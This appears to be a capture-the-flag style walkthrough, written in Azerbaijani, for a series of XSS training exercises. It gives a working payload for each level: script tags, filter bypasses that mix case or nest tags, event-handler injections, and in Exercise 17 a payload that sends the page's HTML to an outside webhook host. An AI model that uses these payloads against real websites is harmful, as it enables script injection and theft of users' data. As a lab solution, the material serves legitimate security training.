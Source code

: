 Exercise 1 – A Truly Disruptive Startup
saytın axtarış bölməsində bu kodu(<script>success()</script>) yazırıq və axtar düyməsinə klikləyirik.
sayt xss hücumundan müdafiə olunmadığı üçün hücumumuz uğurlu olacaq.

Exercise 2 – No Script Allowed
ikinci tapşırıqda server yazdığımız kodun başındakı scripti təmizləyir.Serveri aldatmağımız üçün belə bir kod yazmağımız kifayətdir.</script><script>success()</script>


Exercise 3 – One More Time, Like You Mean It
üçüncü tapşırıqda yazdığımız kodun hər iki tərəfindəki script teqini silir.<scrscriptipt>alert(1)</scrscriptipt>


Exercise 4 – An Open-and-Shut Case
server daxil olunan koddakı script teglərini təmizləyir.Yazılışda biraz dəyişiklik etsək müdafiəni aşa bilərik.<ScRiPt>success()</sCriPt>        

Exercise 5 – Time to Mix Things Up
5-ci tapşırıqda server daxil olunan script və SCRİPT teqlərini təmizləyir.<ScRiPt>success()</sCriPt>

Exercise 6 – A Picture is Worth a Thousand Words
6-cı tapşırıqda server script teqini yazılışından asılı olmayaraq təmizlədiyindən biz başqa teqlərdən istifadə etməliyik. <image src =q onerror=success()>

Exercise 7 – Between a Rock And a Hard Place
        <button onClick="success()">Submit</button>
Exercise 8 – Angle of Death
        <!--<img src="--><img src=x onerror=javascript:success()//">
Exercise 10 – In the Wrong Place at the Wrong Time
        "<img src=/ onerror="success()" />
Exercise 11 – You Can't Win 'em All
        "" onerror="success()"
Exercise 12 – When All is Said and Done
        ' onload=success()
Exercise 14 – Here Today and Gone Tomorrow
        http://caloogle.xyz:4120/search?q=%27+onload%3D%27success%28%29%27
Exercise 15 – The Early Bird Catches the Worm
        </script> <img src=/ onerror=success() /> <script>
Exercise 16 – Tying Up Loose Ends
        <<<///scrip<<//script>>t>>><img src =q onerror=success()>
Exercise 17 – Take a Page Out of Their Book
        function send(payload) {
    fetch('/comment', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({text: 'http://google.com', id: "1);success("})
    }).then((response) => response.clone().text())
    .then((data) => console.log(data));
}
 
send('<script> payload = document.documentElement.innerHTML; window.location="https://webhook.site/my-private-id?query=" + encodeURIComponent(payload); </script>')
